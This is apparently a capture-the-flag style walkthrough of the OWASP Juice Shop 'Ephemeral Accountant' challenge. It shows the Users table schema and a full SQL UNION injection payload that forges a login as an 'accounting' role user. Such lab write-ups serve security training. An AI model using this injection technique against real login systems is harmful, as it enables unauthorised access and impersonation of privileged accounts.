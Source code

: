 # Ephemeral Accountant

`https://pwning.owasp-juice.shop/companion-guide/latest/part1/running.html`

![alt text](assets/ephemeral1.png)

From previous challenges, we know the Users table structure:

```sql
CREATE TABLE `Users` (`id` INTEGER PRIMARY KEY AUTOINCREMENT, `username` VARCHAR(255) DEFAULT '', `email` VARCHAR(255) UNIQUE, `password` VARCHAR(255), `role` VARCHAR(255) DEFAULT 'customer', `deluxeToken` VARCHAR(255) DEFAULT '', `lastLoginIp` VARCHAR(255) DEFAULT '0.0.0.0', `profileImage` VARCHAR(255) DEFAULT '/assets/public/images/uploads/default.svg', `totpSecret` VARCHAR(255) DEFAULT '', `isActive` TINYINT(1) DEFAULT 1, `createdAt` DATETIME NOT NULL, `updatedAt` DATETIME NOT NULL, `deletedAt` DATETIME)
```

We can craft a UNION injection payload.

**Payload**

```sql
' UNION SELECT * FROM (SELECT 24 as id, 'acc0unt4nt' as username, 'acc0unt4nt@juice-sh.op' as email, 'test' as password, 'accounting' as role, '' as deluxeToken, '1.1.1.1' as lastLoginIp, 'default.svg' as profileImage, '' as totpSecret, 1 as isActive, '13131313' as createdAt, '13131314' as updatedAt, null as deletedAt) AS try WHERE '1'='1';--"
```

![alt text](assets/ephemeral2.png)

![alt text](assets/ephemeral3.png)